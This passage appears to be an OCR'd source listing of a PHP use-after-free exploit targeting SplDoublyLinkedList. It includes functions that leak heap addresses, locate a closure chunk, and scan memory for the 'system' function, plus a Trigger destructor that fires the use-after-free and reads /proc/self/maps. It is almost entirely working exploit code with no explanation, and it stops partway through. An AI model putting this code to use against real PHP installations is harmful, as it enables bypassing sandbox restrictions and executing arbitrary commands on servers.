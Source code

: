 ```php

function getElement(&$a, $address) {
    for ($x = 0;$x < ($address[2] / 0x1000 - 2);$x++) {
        $addr = 0x108 + $address[0] + 0x1000 * $x + 0x1000;
        for ($y = 0;$y < 5;$y++) {
            if (leak($a, $addr + $y * 0x08) === 0x1234567812345678 && ((leak($a, $addr + $y * 0x08 - 0x08) & 0xffffffff) === 0x01)){
                echo "[+]SplDoublyLinkedList Element: " . dechex($addr + $y * 0x08 - 0x18) . "\n";
                return $addr + $y * 0x08 - 0x18;
            }
        }
    }
}

function getClosureChunk(&$a, $address) {
    do {
        $address = leak($a, $address);
    }while(leak($a, $address) !== 0x00);
    echo "[+]Closure Chunk: " . dechex($address) . "\n";
    return $address;
}

function getSystem(&$a, $address) {
    $start = $address & 0xffffffffffff0000;
    $lowestAddr = ($address & 0x0000fffffff00000) - 0x0000000001000000;
    for($i = 0; $i < 0x1000 * 0x80; $i++) {
        $addr = $start - $i * 0x20;
        if ($addr < $lowestAddr) {
            break;
        }
        $nameAddr = leak($a, $addr);
        if ($nameAddr > $address || $nameAddr < $lowestAddr) {
            continue;
        }
        $name = dechex(leak($a, $nameAddr));
        $name = str_pad($name, 16, "0", STR_PAD_LEFT);
        $name = strrev(hex2bin($name));
        $name = explode("\x00", $name)[0];
        if($name === "system") {
            return leak($a, $addr + 0x08);
        }
    }
}

class Trigger {
    function __destruct() {
        global $s;
        unset($s[0]);
        $a = str_shuffle(str_repeat("T", 0xf));
        i2s($a, 0x00, 0x1234567812345678);
        i2s($a, 0x08, 0x04, 7);
        $s -> current();
        $s -> next();
        if ($s -> current() !== 0x1234567812345678) {
             die("[!]UAF Failed");
        }
        $maps = file_get_contents("/proc/self/maps");
        if (!$maps) {
            cantRead($a);
        }else {
            canRead($maps, $a);
        }
        echo "[+]Done";
```